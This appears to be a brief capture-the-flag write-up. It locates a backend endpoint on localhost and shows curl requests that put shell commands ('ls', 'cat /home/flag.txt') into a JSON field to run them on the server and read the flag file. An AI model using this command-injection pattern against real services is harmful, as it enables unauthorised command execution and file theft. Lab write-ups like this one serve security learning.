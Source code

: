 # Project Writeup

## 1. Spot the api request to the backend
The first step is to find the api request to the backend. This can be done by opening the developer tools in the browser and looking at the network tab. The request to the backend is a POST request to the `/api/data` endpoint. There is a get an a post method in the frontend code, but the post method is the one that is used to send the data to the backend. So the fully request is `http://localhost:5000/api/data`.

## 2. Find the data that is sent to the backend
The next step is to find the data that is sent to the backend. This can be done by looking at the request payload in the developer tools. The data that is sent to the backend is a JSON object with the following structure:
```json
{
  "data": "some data"
}
```

## 3. Prepare the payload with curl
To request the backend try run the following command:
```bash
curl -X POST http://localhost:5000/api/data -H "Content-Type: application/json" -d '{"data": "ls"}'
```
it will return the following response:
```json
{
  "data": "content of the current directory"
}
```

## 4. Get the flag
To get the flag, we can run the following command:
```bash
curl -X POST http://localhost:5000/api/data -H "Content-Type: application/json" -d '{"data": "cat /home/flag.txt"}'
```


